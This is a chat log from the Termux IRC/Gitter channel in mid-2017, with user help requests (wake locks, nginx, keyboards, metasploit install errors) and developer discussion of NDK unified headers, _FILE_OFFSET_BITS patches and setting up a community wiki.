2017-06-28 07:01:58	delt	hehe :) anyway thanks very much kind sir!

2017-06-28 07:22:55	delt	grepper: i have a symlink /storage/sdcard1 that points to my external sdcard. in termux i can't even see the symlink

2017-06-28 07:23:56	delt	been using linux for 20 years, but android permission shenanigans are weird!!

2017-06-28 08:02:38	IronFire	how do i stop termux from force closing when running processes longer than 15 minutes? (like a bot or downloader script)

2017-06-28 08:16:48	delt	another small question, is it possible to skip the "process has terminated" prompt if the process terminates successfully?

2017-06-28 08:18:44	BrainDamage	delt: https://github.com/termux/termux-app/issues/56

2017-06-28 08:19:52	delt	BrainDamage: thanks

2017-06-28 08:20:22	BrainDamage	the short answer is no

2017-06-28 08:24:13	delt	...as of yet.

2017-06-28 08:24:27	delt	thanks for the info

2017-06-28 10:33:23	gitter	(noncom) I am getting a huge error message that it can't work out something about llvm

2017-06-28 17:22:17	swift110	hey

2017-06-28 17:48:28	delt	hello

2017-06-28 17:48:38	delt	channel's been dead since this morning

2017-06-28 17:52:57	phil42	but termux is still cool

2017-06-28 18:00:02	swift110	hey delt

2017-06-28 18:00:03	swift110	hey phil42

2017-06-28 18:01:20	phil42	hi

2017-06-28 19:48:56	swift110	how are you phil42

2017-06-28 21:32:55	grepper	is there any way to get termux to start up in the foreground when started automatically on boot? I have a tasker profile that accomplishes the start up but termux loads with no sessions.

2017-06-28 23:08:42	brand0n	so im new to linux and termux in general.. i know how to install packages but i cant figure out how to install a downloaded program i.e. BitchX

2017-06-28 23:11:02	brand0n	hello?

2017-06-28 23:12:13	brand0n	im in the correct directory ive used 'tar' to extract it but i dont know how to install/run it

2017-06-28 23:28:26	rods-tab3	make

2017-06-29 06:19:10	gitter	(xornion) hi

2017-06-29 06:20:14	gitter	(xornion) help regarding metasploit install

2017-06-29 06:20:55	gitter	(xornion) netifaces error

2017-06-29 06:21:09	gitter	(xornion) need a fix

2017-06-29 06:22:31	gitter	(xornion) @brunobell help regarding metasploit install

2017-06-29 06:23:08	gitter	(xornion) @brunobell netifaces error

2017-06-29 06:23:32	gitter	(xornion) @brunobell need a fix

2017-06-29 06:31:12	gitter	(xornion) @Neo-Oli tried it with netifaces error

2017-06-29 09:24:38	frumpylava	Does imagemagick segfault for anyone else when trying to convert an image?

2017-06-29 13:01:09	delt	what's the best way to access the termux environment from adb?

2017-06-29 14:04:34	thomax	hi, i will use termux with an bt keyboard and like to know the best way to get the <ESC> key to work within the terminal (like in vi or so)

2017-06-29 14:04:56	thomax	and what do the doc mean with back-key ?

2017-06-29 14:05:09	thomax	^do^does

2017-06-29 14:07:28	gitter	(Grimler91) Converting to/from pdf requires ghostscript (which isn't working yet), trying to convert a pdf currently segfaults

2017-06-29 14:50:47	Grimler_	quit

2017-06-29 14:51:28	Grimler_	ops, trying to learn this irc program..

2017-06-29 15:10:27	 *	thomax sighs

2017-06-29 17:03:00	delt	why is there a 3-4 second delay when running termux-* commands? with any kind of complex script it gets really annoying :/

2017-06-29 17:07:06	rods-tab3	they are shell scripts

2017-06-29 17:09:05	delt	oh, i see they run /data/data/com.termux/files/usr/libexec/termux-api

2017-06-29 17:09:27	delt	which has the delay

2017-06-29 17:12:34	delt	wait, that runs 'am' which causes also a delay

2017-06-29 17:28:23	delt	termux-camera-photo doesn't work, it just hangs there forever

2017-06-29 17:32:25	rods-tab3	$ termux-camera-photo -help

2017-06-29 17:32:25	rods-tab3	Usage: termux-camera-photo [-c camera-id] output-file

2017-06-29 17:32:25	rods-tab3	Take a photo and save it to a file in JPEG format.

2017-06-29 17:32:25	rods-tab3	-c camera-id  ID of the camera to use (see termux-camera-info), default: 0

2017-06-29 17:33:22	delt	yep, read that

2017-06-29 17:33:37	delt	tried both front facing (1) and back facing (0)

2017-06-29 17:34:43	delt	creates the jpeg file i specified but zero length

2017-06-29 17:35:04	delt	and then keeps waiting forever

2017-06-29 17:39:42	rods-tab3	works here:  termux-camera-photo -c 1 me.jpg

2017-06-29 17:43:18	delt	yep, works from the termux command line

2017-06-29 18:01:07	rods-tab3	how else would you envoke it ?

2017-06-30 06:05:11	u0_a134	hi, has anybody been able to find a pianobar package that works on termux? thanks in advance

2017-06-30 06:06:46	u0_a134	pianobar is a cli based pandora music player client included in most repositories, except that I couldn't find it in the termux repos

2017-06-30 07:54:03	thomax	i solved my bt-keyboard - <ESC> key issue. the keyboard has a android and a pc mode. to get the <ESC> key working one must switch to pc mode, in android mode the <ESC> key is unmask-able back (back-key=escape in termux.profiles didn't work)

2017-06-30 11:59:19	delt	rods-tab3: i set my LD_LIBRARY_PATH to /data/data/com.termux/files/usr/lib (and added the bin dir to my PATH) so i could run the commands from adb, but a library was conflicting, i added /system/lib at the beginning of my LD_LIBRARY_PATH and everything works great now :D

2017-06-30 12:07:40	rods-tab3	good

2017-06-30 12:14:15	rods-tab3	i also have a /system/lib64  on android 6

2017-06-30 12:19:12	delt	rods-tab3: my phone has 32bit cpu, but good to know thanks :)

2017-06-30 12:19:44	delt	android 7.1.2 here (lineageos 14.1) and runs great on a galaxy s3

2017-06-30 12:38:43	rods-tab3	so termux runs ok on android 7 ?

2017-06-30 15:36:42	gitter	(prinxy) Am trying to install Conda using pip... But it's giving me errors

2017-06-30 16:02:19	gitter	(prinxy) Am trying to install Anaconda through termux but not working...

2017-06-30 16:07:01	BrainDamage	termux has no graphical interface, only consol

2017-06-30 16:07:48	BrainDamage	also, iirc anaconda bundles things like numpy and scipy, which are non trivial to get to work

2017-06-30 17:09:05	gitter	(prinxy) That means it cant work

2017-06-30 17:21:32	rods-tab3	never say 'cant' - you could write your own GUI -- i know, lets call it Windows !

2017-06-30 18:04:54	fornwall	termux-packages have just switched over to building with unified headers by default

2017-06-30 18:06:11	fornwall	for those building packages, this probably means some instability - keep your eyes open for build failures or strange behaviour

2017-06-30 18:15:53	fornwall	and you probably should run ./clean.sh, to ensure clean builds

2017-06-30 19:06:56	Atomic_wF4Ue	sup

2017-06-30 19:10:43	live_the_dream	yeah i managed to compile gccgo with unified headers

2017-06-30 19:10:55	live_the_dream	as a joke

2017-06-30 19:37:59	live_the_dream	 /quit

2017-06-30 19:55:57	fornwall	live_the_dream: it build ok with unified?

2017-06-30 19:56:16	live_the_dream	a few things are annoying i was doing stuff yesterday

2017-06-30 19:56:30	live_the_dream	i can build gcc

2017-06-30 19:57:16	live_the_dream	but the requirement for -D__ANDROID_API__=21 for command line breaks a few things that i do but i can work around it

2017-06-30 19:57:37	live_the_dream	not your concern apart from that its fine for now

2017-06-30 19:57:44	live_the_dream	but i haven't really started testing yet

2017-06-30 20:05:31	fornwall	the problem, is it that -D__ANDROID_API__=21 is added to CPPFLAGS and not CFLAGS?

2017-06-30 20:06:18	fornwall	because another option would be to have the gcc specs file set that value

2017-06-30 20:06:36	live_the_dream	that is probably easiest

2017-06-30 20:07:01	live_the_dream	but some things don't let you set flags like that at all

2017-06-30 20:07:06	live_the_dream	building gcc for instance

2017-06-30 20:07:22	live_the_dream	you actually have to set that in config.h

2017-06-30 20:07:26	fornwall	aha

2017-06-30 20:08:03	live_the_dream	don't know about spec file though

2017-06-30 20:08:30	live_the_dream	but yeah no consistent workable way with cflags setting

2017-06-30 20:09:15	fornwall	the specs file is specified with -specs=$TERMUX_SCRIPTDIR/termux.spec in CFLAGS, so perhaps that doesn't work either, if CFLAGS is not passed around everywhere when building

2017-06-30 20:09:43	fornwall	you could experiment with it, appending the lines:

2017-06-30 20:09:44	fornwall	*cpp:

2017-06-30 20:09:48	fornwall	-D__ANDROID_API__=21

2017-06-30 20:09:59	fornwall	to termux.spec

2017-06-30 20:11:55	live_the_dream	i doubt that would work though for gcc

2017-06-30 20:12:04	live_the_dream	more i think about it

2017-06-30 20:23:29	fornwall	live_the_dream: hm, perhaps the best option would be to patch <android/api-level.h>

2017-06-30 20:23:29	fornwall	to change from

2017-06-30 20:23:31	fornwall	#ifndef __ANDROID_API__

2017-06-30 20:23:34	fornwall	#define __ANDROID_API__ __ANDROID_API_FUTURE__

2017-06-30 20:23:35	fornwall	#endif

2017-06-30 20:23:37	fornwall	y

2017-06-30 20:23:43	fornwall	and instead default to

2017-06-30 20:23:44	fornwall	#define __ANDROID_API__ 21

2017-06-30 20:24:17	fornwall	then we don't need to pass __ANDROID_API__ on the command line when building

2017-06-30 20:24:49	fornwall	both when cross compiling with the ndk, or when building on the device

2017-06-30 20:26:14	live_the_dream	i tried that

2017-06-30 20:26:18	live_the_dream	doesn't work consistently

2017-06-30 20:26:34	fornwall	hm, it doesn't?

2017-06-30 20:26:42	live_the_dream	i might have a screwed it up

2017-06-30 20:27:08	fornwall	I just pushed a variant trying that, try it out

2017-06-30 20:27:26	fornwall	I've started a rebuild of all packages to try it out

2017-06-30 20:28:23	fornwall	the nice thing with that solution, is that we do not need to patch clang or gcc to predefine __ANDROID_API__ when building on the device

2017-06-30 20:31:07	live_the_dream	yeah im going to have rebuild everything

2017-06-30 20:33:47	live_the_dream	anyway i think i might have solved the last vestiges of mpv mpd incompatibility with 5.1

2017-06-30 20:34:00	live_the_dream	using the original solution i offered a while back

2017-06-30 20:34:19	live_the_dream	it avoids the long the preload line

2017-06-30 20:34:20	fornwall	oh, sounds nice!

2017-06-30 20:34:34	live_the_dream	using symlinks for the stuff we want to load first

2017-06-30 20:35:42	live_the_dream	so its LD_LIBRARY_PATH=$PREFIX/lib/specialdir:/system/lib:/system/vendor/lib:$PREFIX/lib

2017-06-30 20:36:51	live_the_dream	https://its-pointless.github.io/ffmpeg-compat_0.1_arm.deb

2017-06-30 20:36:55	fornwall	ok, so using symlinks in $PREFIX/lib/specialdir/ for the desired libs works better than using LD_PRELOAD for them?

2017-06-30 20:37:01	live_the_dream	yeah

2017-06-30 20:37:22	fornwall	nice

2017-06-30 20:37:22	live_the_dream	because the long preload line exceeds a limit

2017-06-30 20:37:39	live_the_dream	length too long

2017-06-30 20:38:16	fornwall	ah

2017-06-30 21:19:51	live_the_dream	doesn't buiod m4

2017-06-30 21:26:34	live_the_dream	im wrong nm

2017-06-30 22:43:57	gitter	(vishalbiswas) @fornwall we don't need `${TERMUX_API_LEVEL}` in standalone toolchain path anymore

2017-06-30 23:09:58	gitter	(vishalbiswas) also there is no need to patch manual `errno` declarations. alpine can rest them stupid patches now

2017-06-30 23:11:03	live_the_dream	yes they are stupid patches

2017-07-01 00:09:03	sdrausty	@vishalbiswas @fornwall On aarch64 ffmpeg `[libx264 @ 0x558ed9a4d0] using cpu capabilities: ARMv8 NEON` Why is it using arm on aarch64?

2017-07-01 00:09:51	gitter	(vishalbiswas) sdrausty: arm = ARM 32-bit architecture

2017-07-01 00:09:51	gitter	(vishalbiswas) aarch64 = ARM 64-bit architecture

2017-07-01 00:10:02	sdrausty	aahh

2017-07-01 00:10:19	gitter	(vishalbiswas) generally, arm refers to armv7

2017-07-01 00:10:19	gitter	(vishalbiswas) and aarch64 is armv8-a

2017-07-01 00:10:56	sdrausty	▄██ ███ ██▄       OS: Android 6.0.1 aarch64

2017-07-01 00:16:58	sdrausty	ffmpeg/stable,now 3.3.2-2 aarch64 [installed]

2017-07-01 00:16:58	sdrausty	ffmpeg-dev/stable,now 3.3.2-2 aarch64 [installed]

2017-07-01 00:21:11	sdrausty	@vishalbiswas So based on what your stating, "The aarch64 ffmpeg is using 32 bit, not 64?"

2017-07-01 00:21:22	gitter	(vishalbiswas) no

2017-07-01 00:21:29	sdrausty	ok

2017-07-01 00:22:41	sdrausty	Do you have any Idea why ffmpeg uses arm on aarch?

2017-07-01 00:23:19	gitter	(vishalbiswas) it doesn't? how do you know that it does that?

2017-07-01 00:23:47	sdrausty	ffmpeg does amazing work: https://m.youtube.com/playlist?list=PLJ6pP26JOyIN7tho_Y3IUADTt6mTZ94Ag

2017-07-01 00:24:16	sdrausty	On device in Termux!

2017-07-01 00:27:35	sdrausty	@vishalbiswas `[libx264 @ 0x558ed9a4d0] using cpu capabilities: ARMv8 NEON` on aarch64?

2017-07-01 00:28:49	gitter	(vishalbiswas) ARMv8 = aarch64

2017-07-01 00:28:57	gitter	(vishalbiswas) armv7 = 32 bits

2017-07-01 00:31:14	sdrausty	Right, any idea why ffmpeg is using arm capabilities on aarch64? Just a passing question since ffmpeg seems to be working fine.

2017-07-01 00:35:19	gitter	(vishalbiswas) aarch64 is arm 64 bits, I don't understand what you are getting at...

2017-07-01 00:38:01	sdrausty	got it "AArch64 Floating-point and NEON The ARM Advanced SIMD architecture" Thank you @vishalbiswas

2017-07-01 18:52:35	gitter	(TheDiamondYT1) Where is the IRC channel

2017-07-01 18:52:57	gitter	(TheDiamondYT1) @vishalbiswas Are you just a general contributor to termux ?

2017-07-01 19:01:39	live_the_dream	irc on freenode #termux

2017-07-01 19:08:41	live_the_dream	also fornwall libutil-dev and ndk-sysroot both have pty.h ... coreutils and procps both have uptime in bin when i did build-all.sh

2017-07-01 20:18:03	TheDiamondYT	Hi

2017-07-01 20:18:17	gitter	(TheDiamondYT1) Hi

2017-07-01 20:18:24	TheDiamondYT	Thats weird

2017-07-01 20:18:26	TheDiamondYT	Lol

2017-07-01 20:32:56	live_the_dream	the new tmux build currently segfaults but tmate works...

2017-07-01 20:32:58	live_the_dream	?

2017-07-02 00:41:26	gitter	(vishalbiswas) @TheDiamondYT1 yes

2017-07-02 00:55:53	gitter	(vishalbiswas) @fornwall I haven't updated the build revision of mariadb. If you don't find any problems with it, please update it

2017-07-02 02:52:57	Gautam888	Hello

2017-07-02 02:53:33	Gautam888	Cjbc

2017-07-02 02:53:50	Gautam888	Fyg

2017-07-02 02:55:12	gitter	(vishalbiswas) Gautam888: hey

2017-07-02 02:56:08	delt	Hello, termux is not accepting input from my physical bluetooth keyboard, other apps don't have this problem

2017-07-02 02:56:31	delt	including the builtin terminal app of lineage os, works perfectly

2017-07-02 03:05:50	rods-tab3	my bt keyboard works fine -- ??

2017-07-02 04:39:59	fornwall	live_the_dream: "the new tmux build currently segfaults", is that when building now with unified headers, or do you mean the package in the apt repo?

2017-07-02 04:40:55	live_the_dream	new headers

2017-07-02 04:41:02	live_the_dream	on aaarch64

2017-07-02 04:41:13	live_the_dream	also segfaulting on arm

2017-07-02 04:41:17	live_the_dream	on lots of things

2017-07-02 04:41:38	live_the_dream	using the docker image

2017-07-02 04:41:44	live_the_dream	just compiled stuff

2017-07-02 04:43:10	fornwall	ok, I'm looking into it

2017-07-02 05:21:59	fornwall	live_the_dream: just pushed a fix for tmux, good find!

2017-07-02 05:39:02	fornwall	and uptime has been removed from coreutils now. I guess the new headers caused coreutils to start building it

2017-07-02 05:59:54	fornwall	and pty.has been removed from libutil-dev, it's provided by ndk-sysroot now (so the libutil-dev package won't be built anymore)

2017-07-02 07:59:10	gitter	(fornwall) @vishalbiswas I get an undefined reference to `__atomic_load_8` when building mariadb for i686. I thought adding `LDFLAGS+=" -latomic"` would fix that, but it does not

2017-07-02 08:00:11	gitter	(fornwall) but it does seem to work fine on 32-bit arm, which is nice!

2017-07-02 08:27:46	live_the_dream	yeah least used arch is i686

2017-07-02 08:28:07	live_the_dream	fuck it

2017-07-02 15:04:58	fornwall	live_the_dream: right, deprecating and moving towards dropping i686 probably makes sense

2017-07-02 15:41:48	gitter	(fornwall) @vishalbiswas ok, `CFLAGS+=" -latomic"` actually fixed i686

2017-07-02 15:41:56	gitter	(fornwall) instead of LDFLAGS

2017-07-03 02:04:54	nayan	ok

2017-07-03 02:05:07	nayan	testing irc with termux

2017-07-03 02:05:30	nayan	thanks fornwall for this awesome creation

2017-07-03 04:53:21	BigPhreak	Hello

2017-07-03 04:55:42	BigPhreak	Hiiiiiii

2017-07-03 11:31:20	gitter	(vishalbiswas) problems relating to /sdcard in npm seem to be the same.

2017-07-03 11:32:54	gitter	(vishalbiswas) so npm thinks the sub directory is ext4 and tries to chmod/utime on it

2017-07-03 11:34:09	gitter	(vishalbiswas) @fornwall I don't know my way around npm, maybe this info will help you

2017-07-03 14:13:41	gitter	(hariswhdn) How to install nginx

2017-07-03 16:09:10	sdrausty	@hariswhdn `pkg install nginx`

2017-07-03 16:33:12	rods-tab3	i thought it was:  apt install nginx

2017-07-03 16:42:05	rods-tab3	ah, packages cmd just link to pkg which is shell script front end to 'apt' cmd

2017-07-03 16:43:15	rods-tab3	except -  pkg files <packages>  #shows files used

2017-07-04 04:15:28	gitter	(hariswhdn) @TermuxBot  please step by step

2017-07-04 04:15:53	gitter	(hariswhdn) I want to install nginx, php as cgi, and mariadb

2017-07-04 04:25:22	gitter	(hariswhdn) Is it right

2017-07-04 04:25:31	gitter	(hariswhdn) apt install php-fpm

2017-07-04 04:25:38	gitter	(hariswhdn) apt install nginx

2017-07-04 04:25:42	gitter	(hariswhdn) apt install mariadb

2017-07-04 06:38:17	gitter	(hariswhdn) How to setup?

2017-07-04 07:32:04	live_the_dream	building on arm on device with binutils made with unified headers .... don't work?

2017-07-04 07:44:58	gitter	(hariswhdn) I do not understand

2017-07-04 08:13:13	live_the_dream	its okay the bug is not present on official binutils

2017-07-04 09:19:49	fornwall	live_the_dream: you get something like 'crtbegin_dynamic.o: file not recognized: File truncated'?

2017-07-04 09:35:06	fornwall	hm, it seems to be fixed by 'export ac_cv_sys_file_offset_bits=no', which disables the _FILE_OFFSET_BITS=64 flag

2017-07-04 09:36:34	fornwall	the problem with _FILE_OFFSET_BITS=64, which makes off_t 64-bit also on 32-bit systems, in order to make several libc functions work with file sizes larger than 32 bits / 2 gb

2017-07-04 09:37:08	fornwall	is that it's only fully implemented on android 7.0, so when compiling for lower api levels (which we do in termux, targetting android 5.0)

2017-07-04 09:37:37	fornwall	it may cause nasty problems. I've reported it do the ndk at https://github.com/android-ndk/ndk/issues/442

2017-07-04 09:38:10	fornwall	so we may need to patch away the _FILE_OFFSET_BITS=64 support from the ndk headers to avoid these problems

2017-07-04 09:57:39	gitter	(noncom) what do you usually do when some `./configure` says that it can't write to `/usr` ?

2017-07-04 09:58:00	gitter	(noncom) I am trying to install the C kernel for Jupyter Notebook

2017-07-04 09:58:16	gitter	(noncom) also, did anyone have any success with the kernels besides the Pythonic one?

2017-07-04 09:59:13	gitter	(hariswhdn) Pls answer my question

2017-07-04 09:59:15	frumpylava	@noncom check the configure if there is a flag or something to configure where to install the stuff. Otherwise you can run under termux-chroot.

2017-07-04 10:00:47	gitter	(hariswhdn) I already search hundred times to setup nginx, php-fpm and mariadb and got no surely answer

2017-07-04 10:03:27	gitter	(noncom) frumpylava great, gonna try that out

2017-07-04 10:05:32	gitter	(hariswhdn) @noncom yes,  i want to run wordpress by termux as a server. Idk what bootstrap is

2017-07-04 10:05:40	gitter	(noncom) BTW, GUYS just because Termux is so loved by IT people and one of the common topics is "how to setup a programming environment X under Termux?", don't you think that there could be a maintained info page just about that? So that anyone interested could jump right in? Now much of the material is scattered and people are asking here all the time..

2017-07-04 10:06:13	gitter	(noncom) if the number of users increases, this chat shall be flooded with that kind of QAs

2017-07-04 10:12:28	frumpylava	@hariswhdn you run `nginx`

2017-07-04 10:12:50	gitter	(hariswhdn) Yes

2017-07-04 10:13:58	frumpylava	that wasn't a question. The command you use to start nginx is literally `nginx`

2017-07-04 10:15:08	gitter	(hariswhdn) "nginx start" is invalid command

2017-07-04 10:16:15	frumpylava	@noncom I was thinking more like a mediawiki. It would be easier to maintain as you don't have to have an editor look at all pull requests.

2017-07-04 10:18:17	frumpylava	@hariswhdn it's just `nginx` not `nginx start`

2017-07-04 10:18:48	gitter	(noncom) frumpylava  right... I don't have much knowledge on how such wikies are set up

2017-07-04 10:18:49	frumpylava	You type n, g, i, n, x and then press enter.

2017-07-04 10:19:02	gitter	(noncom) do you know any good paper to read about it?

2017-07-04 10:19:15	gitter	(noncom) also, what is "wiki" at all? I mean, what does that word mean?

2017-07-04 10:19:26	frumpylava	if it complains about bind() it's already running. navigate to localhost:8080 in your browser @hariswhdn

2017-07-04 10:19:33	gitter	(hariswhdn) tmp-mksh: nginx: not found, what is mean?

2017-07-04 10:19:36	gitter	(noncom) ah, https://en.wikipedia.org/wiki/Wiki

2017-07-04 10:21:14	gitter	(noncom) so

2017-07-04 10:21:20	gitter	(noncom) like, you choose one of these https://en.wikipedia.org/wiki/Comparison_of_wiki_software

2017-07-04 10:21:39	gitter	(noncom) and run it somewhere?

2017-07-04 10:21:52	gitter	(noncom) are there wiki cloud providers or something?

2017-07-04 10:22:03	gitter	(noncom) googling "wiki provider" gives up wiki pages on what is a "provider"

2017-07-04 10:22:24	frumpylava	@noncom basically yes. I'd choose mediawiki because it's the one made by wikipedia.

2017-07-04 10:22:24	gitter	(noncom) found https://www.mediawiki.org/wiki/Hosting_services

2017-07-04 10:22:53	frumpylava	there is wikia, which you can use to create wikis, but it's to wikis what tumblr is to blogs.

2017-07-04 10:23:14	gitter	(noncom) oh well

2017-07-04 10:23:44	frumpylava	@noncom Would you be willing to work on a wiki about termux (write main page, maybe populate it with a few easy articles)?

2017-07-04 10:23:44	gitter	(noncom) like.. .ok, but now it's like one has to choose between all these available clouds... licences and omg other stuff

2017-07-04 10:24:05	gitter	(noncom) I could work on something like that, yes

2017-07-04 10:24:08	gitter	(noncom) at least we could start it

2017-07-04 10:24:45	gitter	(noncom) especially that there are so many knowledgeable people here that there won't be any lack of support regarding the content

2017-07-04 10:25:27	frumpylava	I could set up a media wiki instance on my webserver later today. Are you around in 3.5 hours? Then you could help me write the main page.

2017-07-04 10:28:46	gitter	(noncom) if this timing suits you

2017-07-04 10:29:01	aleph-	I'll write some man pages if I have the time.

2017-07-04 10:30:00	gitter	(noncom) aleph- cool!

2017-07-04 10:32:03	frumpylava	aleph-: in the wiki or literal man pages?

2017-07-04 10:34:20	aleph-	Wiki

2017-07-04 10:35:01	gitter	(noncom) oh, yeah, I thought you meant wiki too :D

2017-07-04 11:01:03	gitter	(vishalbiswas) frumpylava: can you give me a deb of php-mysql for arm?

2017-07-04 11:02:14	frumpylava	@vishalbiswas actually no. I can't seem to build mariadb at all since recently. Complains about not finding gnutls.

2017-07-04 11:02:58	gitter	(vishalbiswas) @hariswhdn you can follow any online tutorial for setting up nginx on ubuntu as long as you don't change the default port

2017-07-04 11:04:48	gitter	(vishalbiswas) frumpylava: you can extract files from deb to your /data

2017-07-04 11:06:19	frumpylava	@vishalbiswas I don't have the deb for arm, I'd have to compile it, which currently fails at mariadb: Could NOT find GnuTLS (missing: GNUTLS_LIBRARY GNUTLS_INCLUDE_DIR)

2017-07-04 11:06:48	frumpylava	This is happening since I updated the docker container to 15.1

2017-07-04 11:08:12	frumpylava	@vishalbiswas does compiling mariadb still work for you?

2017-07-04 11:12:13	gitter	(vishalbiswas) frumpylava: you can download mariadb for arm at termux.net

2017-07-04 11:12:59	gitter	(vishalbiswas) You won't have to build mariadb now

2017-07-04 11:13:42	gitter	(vishalbiswas) No, I don't usually use docker

2017-07-04 11:14:05	gitter	(vishalbiswas) Is your docker up-to-date (17.04)?

2017-07-04 11:20:01	frumpylava	@vishalbiswas Alright. I'll try that. give me 2 hours.

2017-07-04 11:27:44	gitter	(noncom) frumpylava  so, I am about to leave for a journey across the heated urban landscape.. gonna be back online as in about 3 -- 3.5 from now...

2017-07-04 11:28:27	gitter	(noncom) and if you're here, we can work on the wiki page!

2017-07-04 15:57:39	frumpylava	@noncom, aleph- : I set up a mediawiki. https://termux-wiki.glow.li It would be nice if someone wrote at least a short intro on the Main Page.

2017-07-04 16:12:39	rods-tab3	it is our holiday here, so noone works

2017-07-04 16:32:49	frumpylava	fornwall: I sent you a (signed) email about the wiki.

2017-07-04 17:32:56	frumpylava	@vishalbiswas Sorry I didn't get to compiling php-mysql today. I will look at it in the next few days. Or you could compile it yourself by cloning my branch.

2017-07-04 17:51:44	gitter	(noncom) I have registered within the system, but my creative muse is sleeping already

2017-07-04 17:51:54	gitter	(noncom) let's see what tomorrow brings

2017-07-04 17:58:45	frumpylava	@noncom Alright. I'm also spent. This took way longer to set up than I expected.

2017-07-04 18:18:09	live_the_dream	i see fornwall it shouldn't be in effect at api 21

2017-07-04 19:19:19	fornwall	frumpylava: hm, about building mariadb, it seems to that the native/host build requires something like libgnutls28-dev to be installed

2017-07-04 19:19:28	fornwall	which it is not in the default docker setup

2017-07-04 20:31:28	fornwall	frumpylava: does wiki.termux.com work for you now?

2017-07-05 00:35:49	lbr83	Hello

2017-07-05 01:55:54	frumpylava	fornwall: Yes. excellent. thanks. I created the Certificate. https://wiki.termux.com is now a thing.

2017-07-05 03:50:59	fornwall	frumpylava: nice!

2017-07-05 05:47:19	AndChat22484	hi

2017-07-05 05:47:47	AndChat22484	how is termux accomplished

2017-07-05 05:51:52	AndChat22484	is anyone alive

2017-07-05 05:53:18	AndChat|22484	is anyone alive

2017-07-05 06:23:13	live_the_dream	/

2017-07-05 06:23:13	live_the_dream	?

2017-07-05 06:31:56	AndChat|22484	assumming i do this "env -i LD_LIBRARY_PATH=/data/data/com.termux/files/usr/lib ../usr/bin/bash" what else would i need to do to corretly set up bash

2017-07-05 06:35:35	frumpylava	AndChat|22484: Check out what I do in chrooted-termux here: https://github.com/Neo-Oli/chrooted-termux/blob/master/chrooted-termux#L51. Line 51 to 61 is what I do to get the shell working in a proot jail.

2017-07-05 09:57:54	nekmit	herro

2017-07-05 10:37:58	u0_a157	Diggin' the royal fuuuuuck out of Termux.  :)

2017-07-05 11:08:13	Cardinal_	exit

2017-07-05 11:08:16	Cardinal_	rofl

2017-07-05 13:05:55	andchat	why doesnt LD_LIBRARY_PATH work for all applications?

2017-07-05 14:40:00	gitter	(noncom) or how does it work? do we have to agree on something?

2017-07-05 14:40:07	gitter	(noncom) like, format or content or something?

2017-07-05 14:42:09	frumpylava	@noncom yeah. you can just create or edit any page you want.

2017-07-05 14:43:15	frumpylava	By the way is it just me or is the gitter bot really spotty today. I only see half the messages that I see on gitter.

2017-07-05 14:43:39	frumpylava	I don't see @vishalbiswas' message about the favicon at all.

2017-07-05 14:48:08	frumpylava	@vishalbiswas which, by the way, I just fixed.

2017-07-05 16:52:54	andchat	hi

2017-07-05 16:52:58	andchat	i need help

2017-07-05 17:39:59	alphac0de	does anyone know how to use metasploit in termux

2017-07-06 02:19:36	Auxilus	I am having error while installing metasploit

2017-07-06 02:19:53	Auxilus	Here is the pastebin for it =>

2017-07-06 02:20:06	Auxilus	https://pastebin.com/Eys9azv1

2017-07-06 02:29:45	Auxilus_	https://pastebin.com/Eys9azv1

2017-07-06 07:47:02	htafdresgi	why does my termux quite overnight? I want it to stay on all the time

2017-07-06 07:47:25	htafdresgi	it's annoying to have to start it up every morning.

2017-07-06 07:48:23	live_the_dreams	its android doing that

2017-07-06 07:48:32	live_the_dreams	you can aqure a wakelock

2017-07-06 07:48:56	htafdresgi	how do I do that?

2017-07-06 07:49:41	frumpylava	htafdresgi: Do you have any things running at night that might need a huge amound of RAM? I had foldersync running every night and that caused all other apps to be closed, because it needed so much memory.

2017-07-06 07:50:04	htafdresgi	nope nothing

2017-07-06 07:50:31	htafdresgi	well I don' in regards to other apps what they do. I could try closing a bunch of them.

2017-07-06 07:50:54	live_the_dreams	termux-wake-lock command

2017-07-06 07:51:58	htafdresgi	thanks I'll try that

2017-07-06 07:52:30	frumpylava	It will cause android not to go to sleep, so it might use more battery.

2017-07-06 07:53:12	htafdresgi	it's okay, I use it for bulk sms, so it's always plugged in.

2017-07-06 07:58:10	frumpylava	htafdresgi: I would also keep an eye on memory. If termux uses up more ram than available, it will close also.

2017-07-06 07:58:52	frumpylava	echo "scale=2147483647; 4*a(1)" | bc -l

2017-07-06 07:58:56	frumpylava	Will kill termux

2017-07-06 09:18:59	htafdresgi	can I make swap files?

2017-07-06 09:21:09	htafdresgi	thanks I'll try that

2017-07-06 16:37:38	gitter	(fornwall) the gitter irc/bot should be up again

2017-07-06 16:49:57	andchat	hi

2017-07-06 17:03:03	gitter	(hariswhdn) Hallo guys

2017-07-06 17:03:34	gitter	(hariswhdn) I want to ask how to install python-pip and python-setuptools?

2017-07-06 17:19:55	nekmit	apt install python-pip

2017-07-06 17:19:55	nekmit	i guess

2017-07-06 17:20:40	nekmit	apt install python-setuptools

2017-07-06 17:25:41	gitter	(hariswhdn) nekmit command wrong

2017-07-06 17:26:11	gitter	(hariswhdn) Btw i just install git repo on wrong folder xD

2017-07-06 17:26:26	gitter	(DatOneLefty) is there any way to install java on termux?

2017-07-06 17:26:36	gitter	(hariswhdn) Can i just move it by file manager?

2017-07-06 17:36:40	nekmit	idk about java

2017-07-06 17:39:59	gitter	(hariswhdn) i just install git repository on wrong folder.

2017-07-06 18:38:55	gitter	(hariswhdn) Solved

2017-07-06 18:49:24	live_the_dreams	fornwall you patched fix for  _FILE_OFFSET_BITS=64 when __ANDROID_API__ < 24 on arm for termux build or should i do that myself?

2017-07-06 18:51:10	live_the_dreams	https://android-review.googlesource.com/#/c/429481/ for those that don't know

2017-07-06 19:00:04	fornwall	live_the_dreams: I'm looking at it, I'm currently thinking about patching away _FILE_OFFSET_BITS=64 support unless the targeted api level is 24

2017-07-06 19:00:34	live_the_dreams	the proposed patch is to revert

2017-07-06 19:00:54	live_the_dreams	its already done there googlesource url

2017-07-06 19:01:10	live_the_dreams	will be in next ndk

2017-07-06 19:07:25	fornwall	that commit in the ndk will cause fgetpos,fsetpos,fseeko,ftello and funopen to not be defined by the headers when building for earlier than android-24

2017-07-06 19:08:59	fornwall	but the functions will still exist in libc, and unless building with -Werror=implicit-function-declaration will be implicitly declared and then broken at runtime as before

2017-07-06 19:09:40	fornwall	sorry, meant "not be defined by the headers when building for earlier than android-24 and using _FILE_OFFSET_BITS=64", that is

2017-07-06 19:11:23	fornwall	adding -Werror=implicit-function-declaration to the default CFLAGS in termux is probably a good idea, I'm currently building everything with it to see what needs to be fixed

